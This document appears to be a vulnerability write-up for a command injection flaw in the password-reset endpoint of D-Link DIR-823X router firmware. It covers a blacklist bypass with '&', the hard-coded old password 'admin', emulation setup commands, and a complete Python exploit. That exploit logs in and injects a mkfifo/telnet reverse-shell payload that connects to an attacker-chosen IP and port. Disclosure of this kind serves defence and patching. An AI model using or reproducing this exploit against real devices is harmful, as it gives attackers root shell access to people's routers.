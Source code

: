 Dlink-dir-823x-set-password command injection
Vulnerability Details
Affected firmware: 20250416
Impact: Remote unauthenticated attackers can execute arbitrary commands as root.

The password reset function in this backend
The blacklist has verified the parameters but can be bypassed using&. It should be noted that we need to verify the old password here, which is hard coded admin. We can simply construct old_ passwd as admin.

Supplier website：https://www.dlink.com.cn/

![1751863763641](https://github.com/user-attachments/assets/df074ed8-f38f-4d5f-ba3d-3a65b3d6b8df)

![1751864259149](https://github.com/user-attachments/assets/3eab435d-4166-4e69-8c1b-43bd3473e876)

Blacklist not verified&

![1751864329902](https://github.com/user-attachments/assets/b2d476c6-d1ac-4ac3-86b0-83375cfbaf3f)

![1751864141814](https://github.com/user-attachments/assets/8ec69431-21a0-408b-9e12-2efaab6679d4)

User simulation

```
sudo chroot ./ ./qemu-aarch64-static -- ./usr/sbin/goahead -f
```

Configure network card

```
ip link add name br-lan type bridge

ip link set br-lan up

ip addr add 192.168.1.1/24 dev br-lan
```

exp

```
import requests
import hmac
import hashlib
import re

def extract_cookies(response):
    cookie_header = response.headers.get('Set-Cookie', '')
    session_id = re.search(r'sessionid=([^;]+)', cookie_header)
    auth_token = re.search(r'token=([^;]+)', cookie_header)
    return (
        session_id.group(1) if session_id else None,
        auth_token.group(1) if auth_token else None
    )

def fetch_login_page(host_ip):
    url = f"http://{host_ip}/login.html"
    response = requests.get(url)
    if response.status_code == 200:
        return extract_cookies(response)
    return None, None

def encrypt_password(password, token):
    return hmac.new(token.encode(), password.encode(), hashlib.sha256).hexdigest()

def submit_login(host_ip, username, hashed_password, session_id, token):
    url = f"http://{host_ip}/goform/login"
    payload = {
        "username": username,
        "password": hashed_password,
        "token": token
    }
    cookies = {'sessionid': session_id, 'token': token}
    return requests.post(url, data=payload, cookies=cookies)

def send_set_wifidog_settings_request(host_ip, session_id, token, ip, port):
    url = f"http://{host_ip}/goform/set_password"
    payload = {
        "http_passwd": f"1\" && ash -c \"mkfifo /tmp/meigui1 && telnet {ip} {port} 0</tmp/meigui1|/bin/sh >/tmp/meigui1",
        "old_passwd": "admin",
        "token": token
    }
    cookies = {'sessionid': session_id, 'token': token}
    return requests.post(url, data=payload, cookies=cookies)

def main():
    host_ip = input("路由器地址 (如 192.168.1.1): ")
    username = "admin"
    password = "admin"
    ip = input("你的监听 IP (如 192.168.1.100): ")
    port = input("你的监听端口 (如 6666): ")

    session_id, token = fetch_login_page(host_ip)
    if not session_id or not token:
        print("[×] 获取 login.html 失败")
        return

    hashed_pwd = encrypt_password(password, token)
    login_resp = submit_login(host_ip, username, hashed_pwd, session_id, token)
    if login_resp.status_code != 200:
        print("[×] 登录失败")
        return

    # 登录成功后重新获取 cookie（有些设备会变）
    session_id, token = extract_cookies(login_resp)
    if not session_id or not token:
        print("[×] 登录后提取 token 失败")
        return

    # 发起注入利用
    exploit_resp = send_set_wifidog_settings_request(host_ip, session_id, token, ip, port)
    if exploit_resp.status_code == 200:
        print("[√] 利用请求已发送，检查你的监听端口！")
    else:
        print("[×] 利用请求失败", exploit_resp.status_code)

if __name__ == "__main__":
    main()


```

